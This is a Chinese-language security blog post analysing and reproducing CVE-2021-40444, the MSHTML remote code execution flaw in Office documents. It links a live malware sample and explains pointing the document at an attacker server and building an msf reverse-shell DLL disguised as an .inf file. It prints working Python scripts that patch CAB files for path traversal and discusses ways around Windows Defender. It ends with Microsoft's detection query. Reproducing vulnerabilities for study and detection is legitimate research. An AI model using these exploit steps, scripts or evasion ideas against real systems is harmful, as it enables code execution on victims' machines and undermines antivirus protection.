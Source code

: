 ```yaml
---
title: CVE-2021-40444学习及复现
date: 2021-09-18 10:44:06
tags:
---
```


# CVE-2021-40444学习及复现

2021年9月7日，微软威胁情报中心（MSTIC）公布了编号为CVE-2021-40444的一个重大漏洞，该漏洞是Microsoft内置浏览器引擎MSHTML的远程命令执行漏洞。攻击者可通过制作恶意的 ActiveX 控件供托管浏览器呈现引擎的 Microsoft Office文档使用，成功诱导用户打开恶意文档后，可在目标系统上以该用户权限执行任意代码。 



MSHTML（又称为Trident）是微软旗下的Internet Explorer 浏览器引擎，也用于 Office 应用程序，以在 Word、Excel 或 PowerPoint 文档中呈现 Web 托管的内容。AcitveX控件是微软COM架构下的产物，在Windows的Office套件、IE浏览器中有广泛的应用，利用ActiveX控件即可与MSHTML组件进行交互。

## 恶意样本分析

首先从获取他人上传的恶意样本进行分析，样本地址为：https://vx-underground.org/tmp/CVE-2021-40444.rar，下载样本后对样本进行一个分析，首先从doc开始，将doc的后缀名修改成zip再进行一个解压缩。

![image-20210916140448272](/img/image-20210916140448272-4138004.png)

打开document.xml.rels文件，发现存在一个外部资源的请求。

![image-20210916140704985](/img/image-20210916140704985-4138004.png)

MHTML是Internet Explorer保存的网页存档文件格式的文件扩展名，存档的网页是一个MHTML文件。MHTML保存网页内容，并将外部资源，如图像、小程序、Flash动画等存入HTML文档。接下来我们查看这个文档请求的HTML文件内容

![image-20210916141245392](/img/image-20210916141245392-4138004.png)

网上给出的样本是经过了混淆的，不过可以得到两条比较关键的信息，一个是ministry.cab，一个是championship.inf，先去查看样本中的cab文件，发现里面打包championship这个inf文件

![image-20210916141751768](/img/image-20210916141751768-4138004.png)

查看inf内容发现这是一个PE文件，初步推测这就是攻击者的后门文件。查看网上他人对于html的[逆向结果]([CVE2021-40444/poc.html at main · aydianosec/CVE2021-40444 (github.com)](https://github.com/aydianosec/CVE2021-40444/blob/main/poc.html))（这个还原的代码仅作参考，实际运行会有问题）

![image-20210916142723852](/img/image-20210916142723852-4138004.png)

可以看出首先利用了html跳转去请求并打开cab文件，cab文件中包含了一个扩展名为.inf的恶意DLL文件，office利用control.exe将inf文件作为控制面板文件执行。

漏洞利用链

![图示使用 CVE-2021-40444 的 DEV-0413 战役攻击链](/img/Figure2-attack-chain.png)

## 漏洞复现

修改document.xml.rels中的mhtml内容，改成我们自己的服务器地址，在还原成doc文件。

![image-20210916151417458](/img/image-20210916151417458-4138004.png)

再利用msf生成反弹shell的DLL文件，修改dll文件后缀为inf，再利用脚本对文件进行打包，Linux下需要利用安装lcab，而windows下只需要下载一个cabarc.exe.

windows打包代码

```python
#Use python2.7
import os, sys, subprocess, binascii, time

filename = sys.argv[1]
args = "cabarc.exe -i 1234 -m NONE -p n w.cab " + filename
subprocess.call(args)
time.sleep(1)
cab = "w.cab"
fh = open(cab,mode='r+')
buff=fh.read()
fh.seek(0)
fh.write(buff[:44]+'\x00\x5d\x44\x00')
fh.close()

```

Linux 下打包命令

```python
#!/usr/bin/env python3
# Patch cab file
import os,sys,subprocess

def execute_cmd(cmd):
	r = subprocess.getoutput(cmd)
	return r
m_off = 0x2d
def patch_cab(path):
	f_r = open(path, 'rb')
	cab_content = f_r.read()
	f_r.close()
	
	out_cab = cab_content[:m_off]
	out_cab += b'\x00\x5d\x44\x00'
	out_cab += cab_content[m_off+4:]
	out_cab = out_cab.replace(b'..\\m.inf', b'../m.inf')
	
	f_w = open('word.cab', 'wb')
	f_w.write(out_cab)
	f_w.close()
	return

execute_cmd('mkdir cab/')
execute_cmd('cp word.dll m.inf')
os.chdir('cab/')
execute_cmd('lcab \'../m.inf\' out.cab')

patch_cab('out.cab')
```

修改html内容，主要是修改cab的访问路径以及cpl调用的文件名。这里可以注意一下，在实际测试过程中发现，原本的样本中的.cpl:123没有任何作用，并且.inf文件默认会保存到用户\appdata\local\temp\目录下，所以这里对html内容进行了删减。

![image-20210916153506482](/img/image-20210916153506482-4138004.png)

python建立监听，点击doc，可以发现请求如下

![image-20210916161131218](/img/image-20210916161131218-4138004.png)

![image-20210916161906737](/img/image-20210916161906737-4138004.png)

并且m.inf文件TEMP目录下。

![image-20210916161241870](/img/image-20210916161241870-4138004.png)

打开process monitor可以发现cab文件首先缓存下来。并且rundll32进程开始加载我们的inf文件。

![image-20210916161612318](/img/image-20210916161612318-4138004.png)

![image-20210916161818716](/img/image-20210916161818716-4138004.png)

至此整个漏洞的利用复现就完成了。

## 衍生思考

在整个漏洞测试中，我们是关闭掉windwos defener来进行的，因为，在测试中发现，defender会对rundll32来加载跨目录的inf文件进行拦截，并且标记为CVE-2021-40444。

![image-20210916162531205](/img/image-20210916162531205-4138004.png)

因此思考一下对于Denfender的绕过，对于.cpl:../../../这样的格式感到好奇。其中.cpl看起来是文件后缀名，感觉是利用windows自带的一些协议去加载这个文件，于是我进行了其他后缀名的测试，例如使用.vbs去执行。

![image-20210916163341079](/img/image-20210916163341079-4138004.png)

在测试中.vbs的执行成功了，并且绕过了windows defender的拦截，但是在这样的测试中存在一个问题，cab中的vbs文件并不能释放出来，这里是我手动将vbs放过去后，利用activex进行的加载，姑且算一个劫持吧。同样我们也可以利用这种方式去加载一个计算器。

![image-20210916164113713](/img/image-20210916164113713-4138004.png)

当然类似于.hta也是可以的，但存在一个问题，hta没办法通过目录穿越来进行加载。

![image-20210916165426637](/img/image-20210916165426637-4138004.png)

有一个技巧来判断哪些后缀名是可以利用的，打开运行窗口，在这里进行测试：

![image-20210916165359120](/img/image-20210916165359120-4138004.png)

如果可以针对cab的释放进行研究，应该可以绕过windows denfender来进行利用。



Tips：该漏洞并不仅限于doc文件，也可以利用rtf文件，并且rtf文件存在预览模式，可以更方便的达到目的。

Tips2: 这个利用存在了一个问题，因为他是利用目录穿越去读取，当我的doc文档不在c盘的时候，会有不能跨盘的问题存在。	



## 检测规则

以下是微软官方给出的检测方法：

利用以下查询，通过URL协议处理目录穿越来利用控制面板的情况

DeviceProcessEvents | where (FileName in~('control.exe','rundll32.exe') and ProcessCommandLine has '.cpl:')
or ProcessCommandLine matches regex @'\".[a-zA-Z]{2,4}:\.\.\/\.\.'



